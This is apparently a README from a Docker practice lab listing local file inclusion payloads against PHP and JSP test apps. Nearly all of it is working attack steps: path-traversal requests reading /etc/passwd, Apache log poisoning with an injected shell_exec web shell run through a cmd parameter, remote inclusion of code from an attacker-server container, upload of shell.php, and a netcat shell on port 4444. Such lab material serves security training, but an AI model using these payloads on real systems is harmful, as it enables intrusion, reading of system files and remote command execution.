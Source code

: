 # Payloads

## PHP

- http://127.0.0.1:8883/lfi.php?language=http://172.18.0.3/check.php?

see `allow_url_include` in response

- http://127.0.0.1:8883/lfi.php?page=/etc/passwd

- By Experiment add ../ since before etc/passwd until:

http://127.0.0.1:8883/lfi.php?page=../../../etc/passwd

- Get "access.log", changed here to "access_combined.log" because stdout is going out of docker:

http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log

```
nc -nv 127.0.0.1 8883
<?php echo shell_exec($_GET['cmd']);?>
```

http://127.0.0.1:8883/lfi.php?page=../../../var/log/apache2/access_combined.log&cmd=id

-- Check for uid in output

- Upload check.php from attacker-server src folder
load
http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/check

- upload shell.php
http://127.0.0.1:8883/lfi.php?language=/var/www/html/uploads/shell

```
docker exec -ti <containerid_attackerserver> /bin/bash
nc 172.18.0.1 4444
```

## JSP

- http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=ls
- http://127.0.0.1:8881/webapp/?help=runme.jsp?exec=cat%20/etc/passwd
- http://127.0.0.1:8881/webapp/?help=http://172.18.0.3:8080/webapp/introduction

# Further Information

https://www.owasp.org/index.php/Testing_for_Local_File_Inclusion
